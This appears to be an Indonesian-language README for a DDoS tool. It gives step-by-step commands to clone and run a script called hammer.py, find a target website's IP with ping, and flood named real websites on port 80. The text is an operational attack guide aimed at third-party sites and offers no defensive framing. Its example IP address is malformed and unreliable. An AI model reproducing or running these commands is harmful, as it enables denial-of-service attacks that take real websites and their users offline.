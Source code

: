 # SERANGAN DDOS ATTACK
$apt update && apt upgrade

$pkg install git && pkg install python


$git clone https://github.com/mrbrutal46/DDOS.BARBAR

$ cd DDOS.BARBAR

$ python hammer.py




Carilah alamat ip sebuah website dengan menggunakan perintah :

ping (namawebsite.com) 

Contohnya :

ping www.xnxx.com

Setelah kita mendapatkan alamat ip target, disini saya mendapatkan alamat website nekopoi.care, lalu jika kita ingin melakukan penyerangan terhadap situs target, lakukan dengan perintah :

python hammer.py -s (Alamat Ip) -p 80 -t 135

Contohnya disini saya akan menyerang situs www.xnxx.com


python hammer.py -s 283.223.123 -p 80 -t 135

 Dan penyerangan (DDOS)
